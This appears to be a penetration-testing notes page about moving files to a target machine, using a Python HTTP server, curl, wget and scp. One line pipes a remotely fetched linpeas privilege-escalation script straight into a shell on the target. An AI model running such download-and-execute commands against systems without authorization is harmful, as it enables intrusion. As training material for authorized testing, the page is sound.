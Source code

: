 If you haven't already got it, you'll need to [install python](https://www.python.org/downloads/). You can check if you have it by running `which python` or `which python3` in your terminal. If both come back blank, you don't have it installed correctly.

Once you have Python, start your server:

```bash
$ python3 -m http.server
```

By default, this listens on port 8000. You can change the port by specifying an unused port number after the command:

```bash
$ python3 -m http.server [PORT]
```

If you want to listen on a priveleged port (<1000) you must run with root priveleges. Running on port 80 or 443 is a common use case, as they are the default ports for HTTP/S, and sometimes target machines will only communicate on one of these default ports.

```bash
$ sudo python3 -m http.server 80
```

[[Common Ports|Learn more about ports]]

**Communicating with the Server**

You can then make a request to this server from a remote box. For example, using `curl`:

```bash
$ curl [IP]:[PORT]/example.txt
```

Or `wget`:

```bash
$ wget [IP]:[PORT]/example.txt
```

This will request the file `example.txt` from your host machine, and download it to the box. The choice of command depends on what is installed on the box.

You can also pipe the results of a `curl` directly to a shell. This is useful for running a script such as linpeas.

```bash
$ curl [IP]:[PORT]/linpeas.sh | sh
```

Make sure to kill your server when you are done. It is also good practice to start your server in a directory without any sensitive files in it - just the scripts you want to upload.

See [[Cheat Sheets/Aliases#Useful Aliases|Useful Aliases]] for the `enumserve` alias, which starts a Python Server in a preset directory that is full of juicy scripts.

### Secure Copy

Use secure copy to copy a file to a server you can connect to using SSH:

```bash
$ scp /path/to/local/file [user@][SOURCE_IP]:/path/to/target/destination
```
